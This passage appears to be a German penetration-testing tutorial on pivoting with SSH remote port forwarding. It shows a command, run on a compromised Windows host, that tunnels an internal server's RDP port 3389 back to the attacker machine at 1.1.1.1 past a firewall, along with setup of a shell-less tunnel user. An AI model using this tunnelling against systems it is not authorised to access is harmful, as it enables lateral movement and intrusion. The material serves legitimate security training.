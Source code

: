 Sobald wir eine Verbdinung zurück zu unserer Maschine herstellen wollen, müssen wir einen User erstellen, der allerdings keinen Zugang zu einer Konsole hat und ein Password bestitzt um die Tunnel zu erstellen.

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

Je nachdem welche Anforderungen man braucht, kann der SSH Tunnel lokales und remote Ports weiterleiten. Wir schauen uns beide Fälle mal an.

### SSH Remote Port Forwarding

In unserem Beispiel gehen wir davon aus, dass unsere Attacke Maschine keinen Zugriff auf Port 3389 auf dem Server hat, da eine Firewall den Zugang blockiert. Wenn wir den PC-1 Computer übernommen haben, und dieser auf Port 3389 am Server zugreifen kann, können wir diesen als Pivot nutzen. Mit Remote Port Forwarding können wir einen erreichbaren Port vom SSH Client (also PC-1) nehmen und auf einen remote SSH Server projezieren (unsere Attacker Maschine).

Als Ergebnis wird ein Port auf der Attacker Maschine geöffnet welcher dazu benutzt wird, eine Verbindung zurück zum Port 3389 durch den SSH Tunnel auf dem Server herzustellen. PC-1 wird die Verbindung stellvertretend herstellen und für den Server sieht es dann so aus, als würde der Traffic einfach von PC-1 stammen.

Es mag eine berechtigte Frage auftauchen. Wenn wir doch sowieso die Maschine PC-1 kompromettiert haben können wir doch direkt mit einer RDP Session diese nutzen um auf Port 3389 auf dem Server zuzugreifen. Die Antwort ist simpel. In einer Situation in der wir nur Zugang per Konsole auf PC-1 haben, sind wir nicht in der Lage einen RDP Client zu nutzen da wir kein GUI haben.
Indem wir den Port für unsere Attacker Maschine erreichbar machen, können wir auch das Linux RDP nutzen. 
Ähnliche Situationen haben wir auch, wenn wir bestimmte Exploits nutzen möchten, aber der gewünschte Port ist nicht erreichbar, oder der Exploit benötigt eine besimmte Programmiersprache die nicht auf den Maschinen vorhanden sind, die wir kompromittieren. Man ist also deutlich besser aufgestellt, wenn man die Ports an unserer Attacker Maschine bereitsstellt.

Im Bezug zu dem Bild von oben, können wir den Port 3389 mit folgendem Befehl den wir auf PC-1 ausführen, verfügbar machen:

>C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N

Damit stellen wir eine SSH Session von PC-1 zu 1.1.1.1 (Unsere Attacker Maschine) her und nutzen dabei den "tunneluser" user.

Da der "tunneluser" nicht in der Lage ist eine Shell auf der Attacker Maschine zu starten, müssen wir den SSH Befehl mit dem -N Switch ausführen. Das hindert den Client daran, eine Shell anzufordern, was die Verbindung wieder sofort beenden würde. Der -R Switch wird benutzt, um einen Remote Port Forward anzufragen. Die Syntax verlangt von uns, erst den Port anzugeben, der auf unserer Maschine (SSH Server) geöffnet werden soll, gefolgt von einem Semikolon mit anschließender IP und Port des Sockets den wir weiterleiten möchten (3.3.3.3:3389). In diesem Beispiel stimmen die Ports überein, was aber nicht zwingend notwendig ist.

Der Befehl selber würde keinen Output ausgeben, aber der Tunnel ist anhängig vom ausführen dieses Befehls. Wenn wir den Befehl mit CTRL+C abbrechen, schließen wir auch den Tunnel.

Sobald der Tunnel offen ist, können wir mit unserer Attacker Maschine eine RDP Verbindung zu dem Server über den Port herstellen.
